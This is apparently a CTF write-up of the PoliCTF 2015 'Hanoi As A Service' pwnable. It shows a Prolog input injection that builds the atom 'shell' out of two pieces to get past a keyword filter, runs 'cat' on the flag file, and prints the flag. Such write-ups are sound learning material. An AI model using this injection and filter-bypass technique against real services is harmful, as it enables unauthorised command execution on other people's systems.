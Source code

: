 # PoliCTF 2015: Hanoi As A Service

**Category:** Pwnable
**Points:** 50
**Solves:** 191
**Description:**

> Check out our shiny new HaaS platform!
> nc haas.polictf.it 80

## Write-up

by [ezliang](https://github.com/ezliang)

This pwnable is pretty simple, it seems to be a tower of hanoi solver. 
>```bash
>$ nc haas.polictf.it 80
> Welcome to the Hanoi-as-a-Service cloud platform!
> How many disks does your tower have?
> 3
> * Move top disk from a to b
> * Move top disk from a to c
> * Move top disk from b to c
> * Move top disk from a to b
> * Move top disk from c to a
> * Move top disk from c to b
> * Move top disk from a to b
>```

After messing around with it and looking up error codes, it seems to be using prolog which is a logical programming language.

>```bash
>$ nc haas.polictf.it 80
> Welcome to the Hanoi-as-a-Service cloud platform!
> How many disks does your tower have?
>)
>ERROR: Prolog initialisation failed:
>ERROR: Syntax error: Illegal start of term
>ERROR: hanoi()
>ERROR: ** here **
>ERROR: ) . 
>```

Also there is a filter that terminates the session if anything os related is sent. After looking around on prolog functions, it turns out you can concatenate two atoms and use the call function on the result to by pass the filter. 

>```bash
>% nc haas.polictf.it 80
>Welcome to the Hanoi-as-a-Service cloud platform!
>How many disks does your tower have?
>0), L = 'shel',K = 'l',atom_concat(L,K,M),call(M,'cat /home/ctf/haas/jhknsjdfhef_flag_here'), hanoi(0
>flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
>```

## Other write-ups and resources

* <http://www.mrt-prodz.com/blog/view/2015/07/polictf-2015---hanoi-as-a-service-50pts-writeup>
* <https://ctf-team.vulnhub.com/polictf-2015-hanoi-as-a-service/>
* <https://github.com/professormahi/CTF/blob/master/polictf-2015/Pwnable/HAAS/README.md>
* <http://b0rk.nl/ctf/2015/polictf/hanoi-as-a-service.html>
* <http://afnom.net/2015/07/12/HAAS.html>
* <http://nandynarwhals.org/2015/07/12/polictf-2015-hanoi-as-a-service-pwnable-50/> (down)
* <http://pequalsnp-team.github.io/writeups/hanoi/>
* <https://0x90r00t.com/2015/07/13/polictf-2015-pwn50-hanoi-as-a-service-write-up/>
* <http://fadec0d3.blogspot.de/2015/07/polictf-2015-hanoi-as-service-50.html>
* <http://fritzfs.blogspot.de/2015/07/writeup-haas-hanoi-as-service-polictf.html>
* <http://pastebin.com/0bnQ4V5g>

